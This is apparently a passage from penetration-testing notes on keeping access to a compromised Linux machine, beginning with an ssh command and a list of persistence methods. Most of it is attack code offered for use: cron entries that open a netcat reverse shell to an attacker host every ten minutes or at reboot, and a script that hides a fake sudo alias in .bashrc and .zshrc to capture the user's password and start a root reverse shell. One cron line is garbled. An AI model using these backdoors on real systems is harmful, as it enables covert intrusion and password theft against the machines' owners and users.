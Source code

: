 On the attacking machine, connect to the host using ssh

```
ssh -p 8001 sysadmin@<host_ip>
```

## Persistence

Persistence is a method to maintain your access in case the target machine reboots/shuts down or even if you need to log out and disconnect from the shell. Many of what we discussed above in the post exploitation section can be used to achieve persistence. For example, when you extract password hashes of the system users or create new users, you can use them log in later thus you have created/established persistent access.

### Persistence Methods

* Extracting hashes and cracking them to obtain the plain text password which can be used to login later. \[Discussed in Post Exploitation Section]
* Creating new accounts and adding them to a privileged group such as the administrators group. \[Discussed in Post Exploitation Section]
* Transferring backdoors to the machine \[coming soon]
* Adding malicious scripts to startup
* Running scripts/executables as cronjobs and or adding them to the startup/autorun. \[Discussed below]

#### Crontab Persistence Techs

**Netcat cronjob** #Method-1 Add the below cronjob to the crontab The below cronjob is set to run for every 10 mins.

```
0-59/10 ' ' ' ' nc ip attacker-ip -e /bin/bash
```

\#Method-2 Execute the below command

```
crontab -l ; echo "@reboot sleep 200 && nc <ip> <port> -e /bin/bash")| crontab 2> /dev/null
```

#### Startup

Example of malicious code that uses netcat to connect to the attacker. Make sure to change the IP and Port in the code to yours.

```
{
<var>="<.hidden filename>"
cat << EOF > /tmp/<var>
alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);
if [ \$locale = "en" ]; 
then echo -n "[sudo] password for
\$USER: ";
fi;
read -s pwd;
echo; 
unalias sudo; 
echo "\$pwd" | /usr/bin/sudo -S nohup nc <ip> <port> -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; 
then
cat /tmp/<var> >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; 
then
cat /tmp/<var> >> ~/.zshrc
fi
rm /tmp/<var>
```